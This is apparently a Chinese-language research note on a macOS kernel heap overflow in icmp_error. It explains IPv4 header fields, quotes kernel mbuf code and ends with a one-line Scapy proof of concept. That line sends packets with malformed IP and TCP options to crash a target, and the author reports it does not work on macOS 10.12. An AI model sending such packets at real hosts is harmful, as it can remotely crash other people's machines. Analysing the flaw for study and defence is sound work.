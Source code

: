 # 一个mac的数据包处理不当的漏洞

## 程序调用

首先程序调用

ip_input_process_list
的
ip_input
来处理ip数据包



#### **IP数据包结构**：



1-1.版本4位，表示版本号，目前最广泛的是4=B1000，即常说的IPv4；相信IPv6以后会广泛应用，它能给世界上每个纽扣都分配一个IP地址。

1-2.头长4位，数据包头部长度。它表示数据包头部包括多少个32位长整型，也就是多少个4字节的数据。无选项则为5（红色部分）。

1-3.服务类型，包括8个二进制位，每个位的意义如下：

​       过程字段：3位，设置了数据包的重要性，取值越大数据越重要，取值范围为：0（正常）~ 7（网络控制）

​       延迟字段：1位，取值：0（正常）、1（期特低的延迟）

​       流量字段：1位，取值：0（正常）、1（期特高的流量）

​       可靠性字段：1位，取值：0（正常）、1（期特高的可靠性）

​       成本字段：1位，取值：0（正常）、1（期特最小成本）

​       保留字段：1位 ，未使用

1-4.包裹总长16位，当前数据包的总长度，单位是字节。当然最大只能是65535，及64KB。

2-1.重组标识16位，发送主机赋予的标识，以便接收方进行分片重组。

2-2.标志3位，他们各自的意义如下：

​       保留段位(2)：1位，未使用

​       不分段位(1)：1位，取值：0（允许数据报分段）、1（数据报不能分段）

​       更多段位(0)：1位，取值：0（数据包后面没有包，该包为最后的包）、1（数据包后面有更多的包）

2-3.段偏移量13位，与更多段位组合，帮助接收方组合分段的报文，以字节为单位。

3-1.生存时间8位，经常ping命令看到的TTL（Time To Live）就是这个，每经过一个路由器，该值就减一，到零丢弃。

3-2.协议代码8位，表明使用该包裹的上层协议，如TCP=6，ICMP=1，UDP=17等。

3-3.头检验和16位，是IPv4数据包头部的校验和。

4-1.源始地址，32位4字节，我们常看到的IP是将每个字节用点（.）分开，如此而已。

5-1.目的地址，32位，同上。

6-1.可选选项，主要是给一些特殊的情况使用，往往安全路由会当作攻击而过滤掉，普联（TP_LINK）的TL-ER5110路由就能这么做。

7-1.用户数据。



ip前面没有问题，问题在可选字段处理

ip_dooptions函数

如果数据出错就调用icmp_error函数

通过设置错误的长度来触发漏洞
## 漏洞分析

在icmo_error里面拷贝了数据包n
向一个固定大小的堆。

```
m_copydata(n, 0, icmplen, (caddr_t)&icp->icmp_ip);

```


确认icmplen的长度

```
nlen = m_length(n);



icmpelen = max(tcphlen, min(icmp_datalen,
(oip->ip_len - oiphlen)));
}



通过这一段
th = (struct tcphdr *)(void *)((caddr_t)oip + oiphlen);

if (th != ((struct tcphdr *)P2ROUNDDOWN(th,
sizeof(u_int32_t))))
goto freeit;
tcphlen = th->th_off << 2;
tcphlen长度60
另一个为包裹总长度。




icmplen = min(oiphlen + icmpelen, nlen);
    oiphlen长度为ip结构长度28

```
计算后，这个玩意是不带l链路层的包裹长度88
```
m_getcl(int wait, int type, int flags)
{
struct mbuf *m;
int mcflags = MSLEEPF(wait);
int hdr = (flags & M_PKTHDR);

/* Is this due to a non-blocking retry?  If so, then try harder */
if (mcflags & MCR_NOSLEEP)
mcflags |= MCR_TRYHARD;

m = mcache_alloc(m_cache(MC_MBUF_CL), mcflags);
if (m != NULL) {
u_int16_t flag;
struct ext_ref *rfa;
void *cl;

VERIFY(m->m_type == MT_FREE && m->m_flags == M_EXT);
cl = m->m_ext.ext_buf;
rfa = m_get_rfa(m);

ASSERT(cl != NULL && rfa != NULL);
VERIFY(MBUF_IS_COMPOSITE(m) && m_get_ext_free(m) == NULL);

flag = MEXT_FLAGS(m);

MBUF_INIT(m, hdr, type);
MBUF_CL_INIT(m, cl, rfa, 1, flag);

mtype_stat_inc(type);
mtype_stat_dec(MT_FREE);
#if CONFIG_MACF_NET
if (hdr && mac_init_mbuf(m, wait) != 0) {
m_freem(m);
return (NULL);
}
#endif /* MAC_NET */
}
return (m);
}


#define    MBUF_INIT(m, pkthdr, type) {                    \
_MCHECK(m);                            \
(m)->m_next = (m)->m_nextpkt = NULL;                \
(m)->m_len = 0;                            \
(m)->m_type = type;                        \
if ((pkthdr) == 0) {                        \
(m)->m_data = (m)->m_dat;                \
(m)->m_flags = 0;                    \
} else {                            \
(m)->m_data = (m)->m_pktdat;                \
(m)->m_flags = M_PKTHDR;                \
MBUF_INIT_PKTHDR(m);                    \
}                                \
}

```
可以看到，实际上的data就是pktdat，长度87
写入87-8的地方



### poc

import scapy
from scapy.all import *
send(IP(dst="192.168.31.129",options=[IPOption("A"*8)])/TCP(dport=2323,options=[(19, "1"*18),(19, "2"*18)]))

### mac

    mac10.12系统上无法利用成功目前，
}
v21 = (unsigned __int64)&v7[v18];
result = v21 & 0xFFFFFFFFFFFFFFFCLL;
if ( v21 != (v21 & 0xFFFFFFFFFFFFFFFCLL) )
goto LABEL_64;
result = 4 * (unsigned int)(unsigned __int8)(*(_BYTE *)(v21 + 12) >> 4);
if ( (unsigned int)result < 0x14 )
goto LABEL_64;
v14 = *((unsigned __int16 *)v7 + 1);
v22 = (unsigned __int16)(4 * (unsigned __int8)(*(_BYTE *)(v21 + 12) >> 4));
v23 = (unsigned __int16)result + v10;
if ( v14 < v23 )
goto LABEL_64;

    这里验证了v21（也就是tcp的地址是不是四字对其）
    ip包本身是对其的，mac包不是，加在一起地址怎么可能对其，poc也跑不通

## 桥接会数据转发，所以主机有洞也会崩溃，切记
## 虚拟机中tcp包无法四字接对齐，所以无法使用
